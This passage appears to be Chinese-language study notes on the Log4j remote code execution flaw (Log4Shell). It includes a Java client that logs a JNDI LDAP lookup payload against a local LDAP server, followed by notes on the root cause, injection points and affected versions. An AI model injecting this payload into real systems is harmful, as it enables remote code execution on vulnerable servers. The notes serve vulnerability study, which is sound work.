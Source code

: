 ```

```



- LDAPRefServer.java 
  - maven依赖 
  - unboundid-ldapsdk 
- 配置远程代码的HTTP URL 
- 启动服务，绑定指定端口 

## 3、LDAP客户端（log4j）

```
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4J {
    private static final Logger logger = LogManager.getLogger(Log4J.class);

    public static void main(String[] args) {
        // 先启动LDAP服务器
        logger.error("${jndi:ldap://127.0.0.1:7912/test}");

        // logger.error("${java:runtime} - ${java:vm} - ${java:os}");
    }
}
```

- maven依赖 
  - 2.14.1 
- 版本 
  - Apache Log4j 2.x <= 2.14.1 
- 打印日志即可，客户端即下载恶意代码并执行 

![image-20230420180212915](https://img.gyxnb.top/img/image-20230420180212915.png)

# log4j RCE原理分析

- log4j支持`JNDI lookup`功能 StrSubstitutor resolveVariable()
- `NamingManager newInstance`
- 为什么要打开计算器 任意命令
- 前端注入点 只要是参数被log4j记录的地方都可以
- 现成利用工具 log4j_POC.ja

# 漏洞影响范围

- log4j 2.x <= 2.14.1 
- JDK 小于 8u191、7u201、6u211

# 漏洞排查
